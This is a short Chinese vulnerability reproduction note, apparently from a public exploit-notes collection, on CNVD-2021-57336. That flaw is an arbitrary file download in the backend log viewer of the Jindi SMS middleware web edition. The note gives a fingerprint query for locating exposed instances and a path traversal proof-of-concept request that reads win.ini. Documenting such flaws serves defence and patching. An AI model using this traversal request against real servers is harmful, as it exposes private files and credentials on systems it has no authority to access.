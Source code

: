 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

<a-checkbox checked>金笛 短信中间件Web版</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金笛短信中间件(WEB版)"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630892591726-addf7f10-4238-4266-92ef-758540f4142a.png)

存在漏洞的位置为 日志下载

![img](../../../.vuepress/public/img/1630892623230-03e19886-0499-4cbb-9cbf-abf9ca8ec2e2.png)

验证POC

```python
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![img](../../../.vuepress/public/img/1630892646440-d5dfd8da-0c22-49e4-86c3-d2978938f824.png)
